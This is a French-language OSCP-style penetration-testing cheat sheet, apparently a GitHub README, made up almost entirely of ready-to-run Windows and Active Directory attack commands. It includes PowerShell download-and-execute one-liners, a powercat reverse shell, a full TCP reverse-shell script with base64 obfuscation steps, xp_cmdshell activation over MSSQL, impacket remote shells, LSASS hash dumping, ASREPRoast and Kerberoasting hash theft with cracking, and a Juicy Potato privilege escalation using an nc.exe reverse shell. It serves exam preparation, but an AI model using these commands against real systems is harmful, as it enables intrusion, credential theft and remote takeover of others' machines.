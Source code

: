 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/4f64d883-9cac-4bc5-b1a5-bcb1f488d072" height="180">

## Commande windows:
**Télécharger puis exécuter un fichier:** powershell "IEX (New-Object Net.WebClient).DownloadString('http://[IP]/shell2.ps1')"  
**Télécharger un fichier:** wget http://[IP]/[fichier] -outfile [fichier]  
Ou alors: (new-object System.Net.WebClient).DownloadFile('http://[IP]/shell.exe','C:\Users\Public\shell.exe')  
**Reverse shell via powercat:** IEX(New-Object System.Net.WebClient).DownloadString('http://[IP]/powercat.ps1');powercat -c [IP] -p 4444 -e powershell  
**Historique Powershell:** type C:\Users\[user]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  
**Information systeme:** systeminfo  
**Lister les infos d'un user:** net user [user]  
**Lister quel groupe / user ont accès au fichier:** icacls [fichier]  
![image](https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/8a6e9321-9713-4e5f-95c7-f60cb03a49c4)  

**Lister process:** Get-Process | ForEach-Object {$_.Path}  
**Trouver des fichiers (équivalent find):** Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

## Partage Samba:
**Lister tout les partages en anonymous:** smbclient -N -L \\\\[IP]\\  
**Ou:** crackmapexec smb <IP> -u '[user]' -p '[pass]' --shares #Null user  
**avec un compte:** smbclient -L //[IP]/ -U [user] --password=[pass]  
**Lister tout les partages et les droits associés:** smbmap -H [ip]  
**Aller dans un partage:** smbclient -N \\\\[IP]\\[nom_du_partage]  
**Énumération  des services windows:** enum4liux [IP CIBLE]  

## Connexion a Windows Management (port 5985 par défaut) :
•	evil-winrm -i [IP] -u [USER]  

## Commande powershell offusquée:
pwsh  
$Text = '$client = New-Object System.Net.Sockets.TCPClient("[IP]",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'  
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)  
$EncodedText =[Convert]::ToBase64String($Bytes)  
$EncodedText  
exit  

## Executer des commandes via MSQL :  
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth  
EXECUTE sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXECUTE sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;  
EXECUTE xp_cmdshell 'whoami';  

## Utilisation du service RPC :
**Connexion au serveur:** rpcclient -U "[USER]" [IP]  
**Lister les users:** enumdomusers  
**Informations sur un user:** queryuser [user]  
**Transformer le format "enumdomusers" en une liste de user:** cat user.txt | tr -d '[]' | cut -d ' ' -f1 | cut -c6-  
**Lister les groupes:** enumdomgroups  
**Lister les groupe du domaine:** enumalsgroups domain  
**Lister les groupe par défault:** enumalsgroups builtin  
**Lister les SID présent dans un groupe :** queryaliasmem domain [RID]  
**Trouver le nom d'un utilisateur via son SID:** lookupsids [SID]  
**lister les partages NFS:** nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [IP]  

## Utilisation de impacket :
**shell via un partage samba :** psexec.py [user]@[IP]  
**shell via un partage samba en écriture:** smbexec.py [user]@[IP]  
**shell via Windows Management Instrumentation:** wmiexec.py [user]@[IP]  
**commande via le Planificateur de tâches:** atexec.py [user]@[IP] [commande]  
**connexion à MSQL:**  impacket-mssqlclient [user]@[IP] -windows-auth  

## Bloodhound-python :
sudo neo4j start --> démare neo4j  
bloodhound --no-sandbox --> ouvre bloodhound  
bloodhound-python -d [domain] -u [user] -p [password] -gc [name.domain] -c all -ns [IP] --> récupère les fichiers  
Find Principles with DCSync Rights. --> propose un schéma avec les objets principaux  
Shortest Paths to High value Targets --> propose un schéma avec plus de détail  

## Post énumération (script) :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe

## Reverse shell :
powershell iex(new-object net.webclient).downloadstring('http://[IP]/shell.ps1')  
Télécharger shell.ps1  

## Récupérer les hash du processus LSASS:
crackmapexec smb 192.168.1.105 -u '[user]' -p '[password]' --lsa

## Attaque sur Kerberos:
### ASREPRoast:
ASREPRoast est une technique qui permet de récupérer le mot de passe Kerberos d'un utilisateur en brutforcant son TGT lorsque que la pré-authentification est désactivé  
récupération du hash d'un compte:  
GetNPUsers.py [domaine]/[user] -request -no-pass -dc-ip [IP]  
Liste des users  
GetNPUsers.py [domaine]/ -dc-ip [IP] -request  
récupération d'un hash avec une wordlist de user:  
GetNPUsers.py [domaine]/ -usersfile [wordlist user] -request -no-pass -dc-ip [IP]  
Bruteforce du hash:  
john [hash file] -wordlist=rockyou.txt  
### Kerberoasting:
Kerberoasting est une technique pour récupérer le mot de passe d'un compte de service en bruteforcant le TGS fournis pour ce service  
récupération du hash:  
GetUserSPNs.py -request -dc-ip [ip] [FQDN]/[user]  
Bruteforce du hash:  
john [hash file] -wordlist=rockyou.txt  

### Juicy Potato:
Dans sa configuration par défaut, Microsoft Windows Serveur a une vulnérabilité critique qui peut permettre l'élévation de privilèges.  
Cette vulnérabilité s'appelle Juicy Potato.  
Les versions de Windows Serveur suivantes sont affectées :  
•	Windows Serveur 2008 R2  
•	Windows Serveur 2012  
•	Windows Serveur 2012 R2  
•	Windows Serveur 2016  
Méthode :  
Uploader le .exe : dowload  
créer un .bat reverse shell:  
echo START C:\inetpub\wwwroot\wordpress\wp-content\nc.exe 10.10.14.69 1111 -e cmd.exe > reverse_shell.bat  
Puis l'exécuter avec Juicy Potato  
PS.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\reverse_shell.bat -l 1337  

### Compiler binaire
x86_64-w64-mingw32-gcc file.c -o eploit.exe  
